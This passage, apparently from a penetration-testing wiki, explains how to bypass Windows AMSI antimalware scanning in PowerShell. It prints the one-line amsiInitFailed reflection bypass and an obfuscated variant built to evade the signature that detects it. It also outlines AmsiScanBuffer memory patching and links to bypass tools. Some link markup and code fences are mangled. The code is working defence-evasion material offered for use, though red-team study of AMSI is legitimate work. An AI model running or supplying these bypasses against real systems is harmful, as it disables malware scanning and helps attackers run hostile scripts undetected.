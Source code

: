 Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [[https://twitter.com/mattifestation|Matt Graeber]] and Microsoft has developed a signature to prevent wider usage.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
```
All it took was one line of powershell code to render AMSI unusable for the current powershell process. This line has of course been flagged by AMSI itself, so some modification is needed in order to use this technique.

Here is a modified AMSI bypass I took from this [[https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db|Github Gist]].

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ublic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [[https://twitter.com/_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input|@RastaMouse]] and overwriting it with instructions to return the code for E_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.

> [!TIP]
> Please read [[https://rastamouse.me/memory-patching-amsi-bypass/|https://rastamouse.me/memory-patching-amsi-bypass/]] for a more detailed explanation.

There are also many other techniques used to bypass AMSI with powershell, check out [[basic-powershell-for-pentesters/README.md#Amsi Bypass|this page]] and [[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell|**this repo**]] to learn more about them.

This tools [[https://github.com/Flangvik/AMSI.fail|**https://github.com/Flangvik/AMSI.fail**]] also generates script to bypass AMSI.

**Remove the detected signature**

You can use a tool such as **[[https://github.com/cobbr/PSAmsi)** and **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger|https://github.com/cobbr/PSAmsi]]** to remove the detected AMSI signature from the memory of the current process. This tool works by scanning the memory of the current process for the AMSI signature and then overwriting it with NOP instructions, effectively removing it from memory.

**AV/EDR products that uses AMSI**

You can find a list of AV/EDR products that uses AMSI in **[[https://github.com/subat0mik/whoamsi|https://github.com/subat0mik/whoamsi]]**.

**Use Powershell version 2**
```